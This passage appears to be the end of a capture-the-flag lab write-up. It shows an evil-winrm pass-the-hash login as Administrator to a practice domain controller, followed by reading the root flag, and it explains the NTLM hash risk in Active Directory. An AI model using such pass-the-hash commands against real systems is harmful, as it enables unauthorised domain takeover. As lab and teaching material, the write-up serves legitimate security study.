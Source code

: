 ```
~$ evil-winrm -i dc.puppy.htb -u Administrator -H 'bb0edc15e49ceb4120c7bd7e6e65d75b'
                                        
Evil-WinRM shell v3.7                                    
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         5/31/2025   6:33 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
3b13************************ac56
```

<p class="indent-paragraph">
This final technique showcases a critical risk in Active Directory environments where NTLM hashes, once exposed, can grant full access without triggering conventional authentication controls. Using the Administrator's hash, we established a new WinRM session and directly accessed the<code>root.txt</code> file, confirming total domain compromise.
</p><br>

</div>